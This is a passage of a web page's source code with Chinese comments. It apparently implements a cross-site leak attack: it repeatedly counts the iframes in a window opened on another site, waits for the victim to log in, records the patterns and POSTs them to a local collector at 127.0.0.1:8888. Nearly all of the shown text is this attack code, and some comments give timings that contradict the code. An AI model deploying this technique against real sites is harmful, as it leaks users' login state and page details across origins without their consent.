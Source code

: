 ~~~js
          pattern2.push(win.length)
        }, 60);
  
        // Break the loop after 18 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern2 is:", pattern2.join(', '));
        }, 6 * 1000);
      }

      //36秒后等待用户登录后再记录iframe
      setTimeout(thirdOpen,36 * 1000);
      function thirdOpen(){
        var pattern3 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern3.push(win.length)
        }, 60);
  
        // Break the loop after 42 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern3 is:", pattern3.join(', '));
        }, 6 * 1000);
      }
    </script>

    <!--打印读取页面iframe数-->
    <div class="sm-item" id="data">
    </div>
    <input type="submit" value="submit" onclick="submit()">
    <p id="result"></p>

    <script>
      //将控制台内容打印在div,pre内（打印在页面上）
      (function () {
        var old = console.log;
        var logger = document.getElementById('data');
        console.log = function () {
          for (var i = 0; i < arguments.length; i++) {
            if (typeof arguments[i] == 'object') {
                logger.innerHTML += (JSON && JSON.stringify ? JSON.stringify(arguments[i], undefined, 2) : arguments[i]) + '<br />';
            } else {
                logger.innerHTML += arguments[i] + '<br />';
            }
          }
        }
    })();
    </script>
    
    <script type="text/javascript">
        function submit(){
          //发送ajax请求

          var data = document.getElementById('data').innerHTML;
          var ajax = new XMLHttpRequest();

          ajax.open('post','http://127.0.0.1:8888/test.json',true)
          ajax.send(data)

          ajax.onreadystatechange = function(){
            if(ajax.readyState ==4 && ajax.status ==200){
~~~